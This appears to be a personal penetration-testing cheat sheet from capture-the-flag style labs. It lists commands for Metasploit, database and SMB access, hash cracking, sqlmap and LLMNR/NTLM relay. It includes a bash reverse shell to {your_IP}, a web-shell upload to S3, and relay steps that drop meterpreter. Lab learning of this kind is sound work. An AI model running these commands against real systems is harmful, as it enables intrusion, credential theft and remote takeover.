 # Tools
### Metasploit
 - use `exploit/...`
 - `show options`
 - `run`
 - After u r in a shell, u can put it in background using `background`.
 - Upgrade most recently opened session `sessions -u -1`.


### ZAP
 - `Tools -> Spider`
 - `Analyze -> Scan Policy Manager` remove the things u do not want to scan for, like if no DB, why SQL scanning?
 - see https://tryhackme.com/room/dastzap for authenticated scan details.

### Redis
 - `sudo apt install redis-tools`
 - `redis-cli -h {target_IP}`
 - `info`
 - `select 0` select db with index number.
 - `keys *`, list keys.
 - `get <key>`.

### xfreerdp
 - `xfreerdp /u:administrator  /v:10.129.1.13` try to connect without password.

### gobuster
 - `gobuster dir -u 10.129.145.11 -w ~/SecLists/Discovery/Web-Content/common.txt`

### mongo
 - ./mongo mongodb://{target_IP}:27017
 - help
 - show dbs;
 - use <db_name>;
 - show collections;
 - db.<collection_name>.find().pretty();

### rsync
 - `rsync --list-only 10.129.204.156::` list directories.
 - `rsync --list-only 10.129.204.156::public` list files within directory, here named public.
 - `rsync {target_IP}::public/flag.txt flag.txt` bring remote flag.txt in my machine.

### Mysql
 - `mysql -h <ip> -u root` to login.
 - SHOW databases; : Prints out the databases we can access.
 - USE {database_name}; : Set to use the database named {database_name}.
 - SHOW tables; : Prints out the available tables inside the current database.
 - SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.

### AWS s3
 - aws --endpoint=http://s3.thetoppers.htb s3 ls
 - aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
 - `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` to upload

### SSH tunneling
 - `ssh -L 1234:localhost:5432 christine@{target_IP}` locally we will be listening to 1234

### SMB
 - `smbclient \\\\10.10.10.131\\ADMIN$ -U Administrator` list.
 - `smbclient -L 10.129.27.203 -U administrator`.
 - `python psexec.py username:password@hostIP`.
 -  `psexec.py administrator@10.10.10.131`.

### John
 - `zip2john backup.zip > zip.hashes` dumps hashes to file.
 - `john zip.hashes` cracks the password.

### Hashcat
 - `hashcat -a 0 -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt` crack md5.
 - `hashcat -m 5600 hash.txt rockyou.txt` crach ntlm.

### nmap
 - `nmap --script=smb2-security-mode.nse -p445 <network>/24` find devices with smb signing disabled.

### sqlmap
 - `sqlmap -u "http://10.129.29.21/dashboard.php?search=%27" --cookie="PHPSESSID=f0mn05nbrdadh5164gavl9q4un"`

### Responder
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv` listen and respond for LLMNR poisioning.
 - `impacket-ntlmrelayx -tf targets.txt -smb2support` pass the hash, targets.txt has victims ip, `-i` to get interactive smb shell, `-e meterpreter.exe`.

### bash
 - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`, reverse shell.
 - `sudo -l` check sudo permissions.
